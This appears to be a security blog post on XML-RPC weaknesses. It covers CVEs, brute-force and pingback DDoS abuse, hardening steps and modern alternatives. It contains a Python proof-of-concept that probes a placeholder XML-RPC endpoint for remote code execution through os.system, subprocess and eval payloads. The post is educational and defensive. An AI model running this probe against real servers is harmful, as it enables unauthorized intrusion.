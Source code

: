 ```yaml
---
title: "XML-RPC Security Vulnerabilities Analysis and Mitigation Strategies"
date: 2025-03-28
draft: false
tags: ["XML-RPC", "Security", "RCE", "Exploit"]
categories: ["Cybersecurity"]
---
```


![XML-RPC background](/images/post/xmlrpc-security.webp)

## Summary

- **Overview of XML-RPC Vulnerabilities:** As a lightweight remote call protocol for inter-system communication, XML-RPC is exposed to various threats such as RCE, XXE, DDoS, and privilege escalation.
- **Notable Cases:** NodeBB (CVE-2023-43187), Apache OFBiz (CVE-2020-9496), PHP XML-RPC (CVE-2005-1921), etc.
- **Real-World Use Cases:** In addition to WordPress, Bugzilla, ManageEngine, and Apache OFBiz, XML-RPC is still used in some legacy systems.
- **Mitigation Strategies:** Disabling XML-RPC, enhancing input validation, reinforcing authentication systems, applying up-to-date security patches, implementing access control, and deploying WAFs.

## What is XML-RPC?

**XML-RPC (XML Remote Procedure Call)** is a remote procedure call protocol that uses XML as its data format and HTTP as its transport mechanism. Proposed jointly by Dave Winer and Microsoft in 1998, it was designed to simplify cross-platform communication.

### Basic Principles

- The client sends a request in XML format, and the server responds in XML.
- It can easily pass through firewalls using standard HTTP(S).

### History of XML-RPC

XML-RPC was widely used in early web services and implemented in various languages including Perl, Java, Python, C, and PHP. Although it later evolved into SOAP, it is still used in some environments due to its simplicity.

### Current Status of XML-RPC

Its use is declining with the advent of newer technologies such as RESTful APIs and gRPC. WordPress is transitioning to REST API, and XML-RPC is now mostly limited to legacy systems.

## Vulnerability Analysis

### 1. XML Injection & Remote Code Execution (RCE)

- **NodeBB (CVE-2023-43187):** RCE possible due to lack of XML input validation
- **Apache OFBiz (CVE-2020-9496):** RCE via Java deserialization
- **PHP XML-RPC (CVE-2005-1921):** RCE through misuse of `eval()`

### 2. XXE (XML External Entity)

- **Apache XML-RPC (CVE-2016-5002):** Local file exposure and SSRF possible due to missing external entity deactivation

### 3. DDoS and Brute Force Attacks

- **system.multicall:** Automates brute force attacks
- **pingback.ping:** Facilitates DDoS reflection attacks

### 4. Authentication Bypass & Privilege Escalation

- **WordPress (CVE-2020-28036):** Authentication bypass via XML-RPC

## Real-World Attack Cases

- **SonicWall Report (2018):** Over 100,000 XML-RPC attacks detected
- **WPbrutebot:** XML-RPC-based brute-force attack tool
- **Pingback DDoS:** Large-scale reflection attacks using XML-RPC

## XML-RPC Exploit Example

The following is a Python-based PoC code to detect RCE vulnerabilities in XML-RPC and its execution screen:

![xmlrpc poc code output](/images/post/xmlrpc-rce.webp)

```python
import xmlrpc.client
import ssl
import http.client

candidate_methods = [
    "os.system",
    "commands.getoutput",
    "subprocess.check_output",
]

candidate_methods_eval = [
    "__builtin__.eval",
    "builtins.eval",
]

rpc_urls = [
    "https://xxx.com/cgi-bin/rpc.cgi",
]

context = ssl._create_unverified_context()

class UnverifiedTransport(xmlrpc.client.SafeTransport):
    def make_connection(self, host):
        return http.client.HTTPSConnection(host, context=context)

for rpc_url in rpc_urls:
    print(f"[+] Scanning target: {rpc_url}")
    client = xmlrpc.client.ServerProxy(rpc_url, transport=UnverifiedTransport())

    for method in candidate_methods:
        try:
            parts = method.split(".")
            obj = getattr(client, parts[0])
            func = getattr(obj, parts[1])
            print(f"[>] Trying {method}('id')...")
            result = func('id')
            if isinstance(result, bytes):
                result = result.decode()
            print(f"[✔] {method} → Success! Result: {result}\n")
        except Exception as e:
            print(f"[-] {method} blocked: {e}")

    for method in candidate_methods_eval:
        try:
            parts = method.split(".")
            obj = getattr(client, parts[0])
            func = getattr(obj, parts[1])
            payload = '__import__("commands").getoutput("id")'
            print(f"[>] Trying {method}('{payload}')...")
            result = func(payload)
            if isinstance(result, bytes):
                result = result.decode()
            print(f"[✔] {method} → Success! Result: {result}\n")
        except Exception as e:
            print(f"[-] {method} blocked: {e}")
```

> ⚠️ Use this script **only in authorized environments**.

## Major Services Using XML-RPC

| System         | Usage Examples                           |
| -------------- | ----------------------------------------- |
| WordPress      | Posting, comments, pingbacks (moving to REST) |
| Bugzilla       | Bug submission and update API            |
| ManageEngine   | User account and password management     |
| Apache OFBiz   | ERP integration API                      |

## Security Hardening Measures

- Disable XML-RPC (via .htaccess, web server config, plugins)
- Enhance input validation (regex-based)
- Apply XXE prevention settings
- Use API keys, OAuth, JWT authentication
- Restrict access by IP
- Deploy Web Application Firewall (WAF)
- Monitor logs and conduct regular vulnerability assessments

## Modern Alternatives Comparison

| Criteria    | XML-RPC | REST     | GraphQL   |
| ----------- | -------- | -------- | --------- |
| Data Format | XML      | JSON     | JSON      |
| Structure   | Method-based | Resource-based | Query-based |
| Scalability | Low      | High     | Very High |
| Security    | Low      | Medium+  | Medium+   |
| Strengths   | Simple implementation | Cacheable | Minimized data queries |

## Conclusion & Recommendations

- **Avoid using XML-RPC due to high security risks.**
- **If unavoidable, apply strong authentication and access control.**
- **Actively consider migrating to REST or GraphQL.**

## Reference Links

- [XML-RPC - Wikipedia](https://ko.wikipedia.org/wiki/XML-RPC)
- [CVE-2023-43187 - NodeBB XML Injection](https://nvd.nist.gov/vuln/detail/CVE-2023-43187)
- [CVE-2020-9496 - Apache OFBiz RCE](https://nvd.nist.gov/vuln/detail/CVE-2020-9496)
- [CVE-2005-1921 - PHP XMLRPC Code Injection](https://nvd.nist.gov/vuln/detail/CVE-2005-1921)
- [CVE-2016-5002 - Apache XML-RPC XXE](https://nvd.nist.gov/vuln/detail/CVE-2016-5002)
- [WordPress XML-RPC Security Guide (SolidWP)](https://solidwp.com/blog/xmlrpc-php/)
- [SonicWall XML-RPC Attack Analysis Report](https://www.sonicwall.com/blog/major-attempt-to-exploit-xml-rpc-remote-code-injection-vulnerability-is-observed)


